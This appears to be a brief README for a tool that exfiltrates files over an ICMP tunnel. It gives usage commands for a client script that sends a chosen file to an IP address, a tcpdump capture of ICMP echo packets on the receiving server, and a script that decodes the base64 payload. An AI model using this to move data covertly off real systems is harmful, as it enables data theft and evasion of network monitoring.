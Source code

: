 # Data Ex-filteration over ICMP Tunnel

### Usage:

at the client end:

```python icmp_transmitter.py  "input_file_to_be_sent" "IP_address_to_be_sent"```

at the server end:
 
run tcpdump. Use the following command :

```sudo tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt```

Use icmptofile.py to decode the base64 data to respective format

```python icmptofile.py output,txt"```

